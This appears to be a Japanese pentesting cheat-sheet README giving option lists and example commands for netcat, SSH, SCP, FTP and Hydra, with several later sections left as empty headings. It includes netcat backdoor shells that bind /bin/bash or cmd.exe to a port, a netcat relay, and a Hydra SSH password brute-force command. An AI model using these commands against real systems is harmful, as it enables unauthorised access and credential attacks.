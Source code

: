 # high-frequency-tips
頻繁に使うコマンドのCheatSheet
(short link → bit.ly/spxntips)

## Netcat
オプション：
```
-l：リッスン
-n：名前解決を行わない
-k：コネクション確立後も接続をリッスンする
-v：接続状態などの出力を行う
-vv：接続状態などのより詳細な出力を行う
```
実行例(ポート1234でリッスン)：
```console
$ncat -nlv 1234
```
実行例(Backdoor Shell)
```console
$nc -l -p [port] -e /bin/bash
```
OR
```console
C:\>nc [port] -e cmd.exe
```
実行例(Ntcat Relays(Listener-to-Listner))
```console
$cd /tmp
$mknod backpipe p
$nc -l -p [port] 0<backpipe | nc -l -p [port] | tee backpipe
```
## SSH
オプション：
```
-p：ポート指定
-v：デバッグの出力
-vv：デバッグのより詳細な出力
-vvv："-vv"より更に詳細な出力
```
実行例(ターゲットのユーザに対してSSHで接続)
```console
$ssh user@[target(ip/hostname)]
```
### SCP(Secure Copy Protocol:SSH)
オプション：
```
-P：ポート指定
-v：デバッグの出力
-p：ファイルに付与されたタイムスタンプなどの情報を保持する
-r：再帰的(ディレクトリごと等)
*.txt：ワイルドカード
/home/user/{file1,file2,file3}：ファイルの複数選択 
```
実行例(リモートホストからローカルにコピーする)：
```console
$scp user@[target(ip/hostname)]:[remote_filepath] [local_filepath]
```
実行例(ローカルからリモートホストにコピーする)
```console
$scp [local_filepath] user@[target(ip/hostname)]:[remote_filepath]
```
## FTP
オプション：
```
-s:filename ：接続時にスクリプトを実行する
```
実行例(ターゲットに接続)：
```console
$ftp [target(ip/hostname)]
```
実行例(アップロード(FTP))：
```console
ftp>put [local_filepath]
```
実行例(ダウンロード(FTP))：
```console
ftp>get [remote_filepath]
```
## Hydra
オプション：
```
[service]：ssh, rdp, ftp, 
-C [file]：<login:pass>形式のUSERPASSリストを指定
-P [file]：PASSリストを指定
-U [file]：USERリストを指定
-s PORT：サービスが起動しているポート
-t：同時実行タスク数()
-v：詳細な出力
services: サービスの指定/対応サービス(asterisk afp cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql ncp nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres rdp rexec rlogin rsh s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp)
```
実行例(sshパスクラ)：
```console
$hydra -C [USERPASS_FILE] [target(ip/hostname)] ssh
```
## John the Ripper
## HashCat
## Metasploit Framework
 ### Meterpreter
 ### msfvenom
 ### Pivot
## Network
 ### Routing
 ### ICMP
 ### ARP
## Google Dork
## Linux General Command
## Windows General Command
